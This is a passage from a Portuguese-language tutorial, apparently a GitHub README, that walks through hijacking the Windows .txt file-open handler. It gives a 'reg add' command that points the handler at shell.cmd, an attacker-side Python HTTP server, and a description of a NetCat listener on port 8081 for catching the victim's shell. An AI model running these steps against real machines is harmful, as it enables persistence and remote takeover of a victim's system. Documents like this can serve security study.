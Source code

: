 **Info:** Como mencionado no inicio do documento, é possível fazer a modificação do manipulador de registro pelo cmd, com privilégio de administrador, utilizando o comando a seguir. Após realizar a modficação, rodar o segundo comando para consultar o valor da chave de registro modificado. Abaixo é possível vizualizar os comandos executados com êxito.

```zsh
reg add HKEY_CLASSES_ROOT\txtfile\shell\open\command /ve /t REG_EXPAND_SZ /d shell.cmd /f
```
```zsh
reg query HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

<p align="center">
  <img src="imagens/modificar-chave-de-registro-cmd.png">
  <br>
  Figura 8: Manipulador de registro modificado pelo cmd e consultado sua modificação
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para servir para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
  <br>
  Figura 9: Comando servindo para baixar arquivo executado
</p>

```zsh
sudo python3 -m http.server 80 
```

O comando acima, serve o arquivo para outra pessoa baixar os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 
